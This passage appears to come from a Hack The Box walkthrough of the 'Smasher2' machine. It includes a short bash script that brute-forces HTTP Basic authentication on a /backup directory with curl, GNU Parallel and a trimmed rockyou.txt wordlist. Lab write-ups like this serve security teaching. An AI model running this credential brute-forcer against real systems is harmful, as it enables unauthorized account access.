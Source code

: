 Hmm. There's a `backup` directory protected by Basic authentication.

### Cracking Basic Authentication

I wrote a simple `bash` script to brute-force basic authentication, using `curl` as the main driver. The first argument is the username, and the second argument is the password. Combine the script with GNU Parallel and you get a multi-threaded brute-force utility. We don't want the script to run forever, so when we get a 200 response code, we know that's the username and password.

<div class="filename"><span>smasher.sh</span></div>

```bash
#!/bin/bash

HOST=10.10.10.135
USER=$1
PASS=$2

die() {
  killall perl &>/dev/null
}

RESULT=$(curl -s \
              -w %{http_code} \
              -o /dev/null \
              --user "$USER:$PASS" \
              http://$HOST/backup/)

if [ $RESULT -eq 200 ]; then
  echo "[+] Username: $USER, Password: $PASS"
  die
fi
```

I\'m making a second guess here. I don\'t want to run the script against the entire `rockyou.txt` which has about 14M lines. I stripped down `rockyou.txt` to words which contain 8 to 9 characters in the `[a-z]` character set. It has 1.2 million lines which is much more manageable.

I got lucky. It took about 35 mins.

<a class="image-popup">
![f9752e72.png](/assets/images/posts/smasher2-htb-walkthrough/f9752e72.png)
</a>

With that, we can finally see what\'s behind `/backup`.

<a class="image-popup">

[1]: https://www.hackthebox.eu/home/machines/profile/191
[2]: https://www.hackthebox.eu/home/users/profile/1963
[3]: https://www.hackthebox.eu/home/users/profile/11652
[4]: https://www.hackthebox.eu/